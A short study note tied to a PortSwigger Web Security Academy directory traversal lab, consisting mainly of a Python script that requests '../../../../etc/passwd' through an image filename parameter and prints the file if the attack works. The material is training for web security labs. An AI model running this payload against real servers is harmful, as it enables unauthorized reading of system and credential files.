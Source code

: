 <cite> Rana Khalil </cite>

#directorytraversal [[Directory Traversal]]
[Lab](https://portswigger.net/web-security/file-path-traversal/lab-simple)
[Python script](https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/directory-traversal/lab-01/directory-traversal-lab-01.py)
[github](https://github.com/rkhal101/Web-Security-Academy-Series/tree/main/directory-traversal)

*This is the python code to Automate* 
```python code
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```


